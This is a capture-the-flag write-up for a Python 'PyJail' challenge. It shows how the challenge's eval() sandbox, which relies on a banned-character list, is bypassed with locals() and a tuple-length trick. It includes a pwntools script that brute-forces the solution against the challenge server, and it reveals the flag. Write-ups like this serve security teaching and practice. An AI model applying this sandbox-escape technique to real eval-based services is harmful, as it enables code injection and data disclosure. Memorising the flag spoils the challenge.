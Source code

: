 # misc/JailBreak 2

<p align = "center"><img src="challenge.JPG" alt="alt text" width="75%" height="75%" /></p>

<details> 
  <summary><b>Hint 1</b></summary>
   What in python is evaluated to a number?
</details>

This is the second of three PyJail challenges in this CTF. For all three challenges, the flag is initialized as a local variable.

```python
flag = open('flag.txt').read().strip()
```

For this challenge, we get to input a message. While the first challenge uses `exec()` on our message, this challenge uses `eval()` instead, and is much easier as it prints out the output for you.

Before our message is evaluated, we would need to bypass the banned character list as shown below:

```python
BANNED_CHARS = "gdvxfiyundmnet/\\'~`@#$%^&.{}0123456789"
```

just like JailBreak 1, we will use `locals()` as it is not blacklisted. Next, we notice a length constraint after the `eval()`, where `len(eval(msg)) == len(flag)`. We can do a trial-and-error, where we store `locals()` in a tuple and increase the tuple size until it is equal to the length of the flag.

```python
from pwn import *

payload = '(locals(), '
end_payload = ')'

i = 1
while True:
    payload += '"", '
    final_payload = (payload + end_payload).encode()

    p = remote("challs.bcactf.com", 30335)

    p.recvuntil(b"message:")
    p.sendline(final_payload)
    received = b""
    while b"Deleted!" not in received and b"flag" not in received:
        received += p.recv(4096)
    if b"flag" in received:
        print(received)
        break

    p.close()

    i += 1
```

We then obtain the flag as such:

```
bcactf{PyTH0n_M4st3R_Pr0veD}
```